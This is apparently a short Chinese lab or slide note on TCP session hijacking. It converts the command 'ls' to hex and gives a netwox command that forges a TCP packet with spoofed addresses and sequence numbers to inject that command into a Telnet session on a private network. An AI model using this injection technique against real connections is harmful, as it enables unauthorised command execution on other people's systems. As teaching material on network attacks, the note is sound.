

# 构造报文
将`ls`转换成16进制并加上`\r`的16进制数得到6c730d00
netwox 40 --ip4-src 192.168.183.140 --ip4-dst 192.168.183.155 --tcp-src 42905 --tcp-dst 23 --tcp-seqnum 3564374010 --tcp-acknum 2354601335 --tcp-ack --tcp-window 114 --tcp-data "6c730d00“

--tcp-data 后面就是我们要注入的命令